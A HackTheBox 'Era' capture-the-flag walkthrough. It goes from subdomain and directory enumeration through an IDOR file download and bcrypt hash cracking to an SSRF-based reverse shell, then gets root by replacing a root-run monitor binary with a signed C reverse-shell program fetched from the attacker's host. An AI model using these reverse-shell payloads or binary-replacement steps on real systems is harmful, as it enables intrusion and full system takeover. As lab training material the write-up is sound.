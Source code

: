 This is a comprehensive, step-by-step walkthrough for the HackTheBox "Era" machine. Each stage is documented clearly, including all commands and logic.

## 1. Recon & Enumeration

### 1.1 Initial Nmap Scan
Scan for open ports and services:
```
nmap -A era.htb
```
*No unusual ports/services; proceed to web enumeration.*

### 1.2 Host File Edits
Add domain to your hosts file:
```
echo "10.10.11.79 era.htb" | sudo tee -a /etc/hosts
```

### 1.3 Subdomain Enumeration
Enumerate subdomains:
```
ffuf -w /path/to/top100ksubdomain.txt -H "Host: FUZZ.era.htb" -u http://era.htb -t 200 -fs 154
```
If you find `file.era.htb`:
```
echo "10.10.11.79 file.era.htb" | sudo tee -a /etc/hosts
```

---

## 2. Directory Enumeration

Use `gobuster` for directories:
```
gobuster dir -u http://file.era.htb/ -w /usr/share/wordlists/dirb/common.txt -t 50 --exclude-length 6765 -x php
```
**Findings:**
- `/register.php` — Register a user
- `/login.php` — Login
- `/upload.php` — File upload (after login)

---

## 3. Exploit Insecure Direct Object Reference (IDOR)

1. Register at `/register.php`.
2. Login at `/login.php`.
3. Upload a file via `/upload.php`.
4. Exploit the `id` parameter (burp/curl), e.g.:
```
curl -b "PHPSESSID=..." "http://file.era.htb/download.php?id=54"
curl -b "PHPSESSID=..." "http://file.era.htb/download.php?id=150"
```
5. Download especially `site-backup-30-08-24.zip`.

---

## 4. Analyzing Dumped Data

Extract the archive:
```
unzip site-backup-30-08-24.zip
```
Inside: `filedb.sqlite`

View with sqlite3:
```
sqlite3 filedb.sqlite
```
Extract user and hash info:
```
SELECT user_name, user_password FROM users;
```
Example:
```
eric:$2y$10$S9EOSD...
yuri:$2b$12$HkRK...
```

---

## 5. Crack Password Hashes

Create `hash.txt`:
```
eric:$2y$10$S...
yuri:$2b$12$H...
```
Crack with John the Ripper:
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
john --show hash.txt
```
Results:
```
eric : america
yuri : mustang
```

---

## 6. FTP Access and Code Analysis

- Try logging in to FTP with the above creds.
- **If not successful:** Analyze downloaded code (especially `download.php`) for vulnerabilities.

---

## 7. Exploiting SSRF for RCE

### 7.1 Reset the Admin Account
Use `/reset.php` and `/security_login.php` to reset admin password (using info from `sqlite` or modifying via your user).

### 7.2 RCE Payload (SSRF)
Payload:
```
http://file.era.htb/download.php?id=54&show=true&format=ssh2.exec://yuri:mustang@127.0.0.1/bash%20-c%20"bash%20-i%20>&%20/dev/tcp/<YOUR_IP>/4444%200>%261"
```
Listener:
```
nc -lvnp 4444
```
With admin privileges, visit the URL—should pop a shell as `yuri`.

---

## 8. Shell Stabilization and User Escalation

Upgrade shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Switch users:
```
su eric
```
Password: america

Read `user.txt` in Eric's home.

---

## 9. Privilege Escalation (Root)

### 9.1 Discovery
Find root-owned binaries:
```
ps aux | grep root
```
Spot `/opt/AV/periodic-checks/monitor` running as root.

---

### 9.2 Malicious Binary & Signature
On your attacker box, create `exploit.c`:
```c
#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<YOUR_IP>/1337 0>&1", NULL);
    return 0;
}
```
Compile statically:
```
x86_64-linux-gnu-gcc -o monitor exploit.c -static
```

**Sign the binary**
after getting the key from `signing.zip`
```
git clone https://github.com/NUAA-WatchDog/linux-elf-binary-signer.git
cd linux-elf-binary-signer
make clean
gcc -o elf-sign elf_sign.c -lssl -lcrypto -Wno-deprecated-declarations
./elf-sign sha256 key.pem key.pem monitor
mv monitor monitor.1
```

---

### 9.3 Replace Monitor Binary
On shell as Eric:
```
cd /opt/AV/periodic-checks
wget http://<YOUR_IP>:8000/monitor.1
rm monitor
mv monitor.1 monitor
chmod +x monitor
```
Start listener:
```
nc -lvnp 1337
```
Wait for scheduled task—**root shell!**

Read `root.txt` in `/root`.
